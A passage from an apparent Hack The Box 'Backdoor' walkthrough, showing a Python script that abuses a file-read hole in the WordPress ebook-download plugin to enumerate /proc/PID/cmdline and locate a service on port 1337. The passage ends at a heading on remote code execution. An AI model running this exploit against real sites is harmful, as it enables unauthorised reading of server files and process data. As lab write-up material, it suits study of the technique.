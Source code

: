 ```python

# Global variables
main_url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"
empty_resp = 125

p1 = log.progress("Brute force")
p1.status("Starting brute force attack")

for pid in range(0,5000):
    p1.status("Testing pid %d" % (pid))
    content = (requests.get(main_url + str(pid) + "/cmdline")).content
    if (len(content) > empty_resp):
        print(f"[+] Process {pid} found")
        print(content)
        print("--------------------------------------------\n")
```

This outputs:

![Desktop View](/assets/img/Backdoor/script.png){: }

We have found the unknown service running in port __1337__ that we previously saw in the scanning phase.

### Getting complete control (RCE)
---
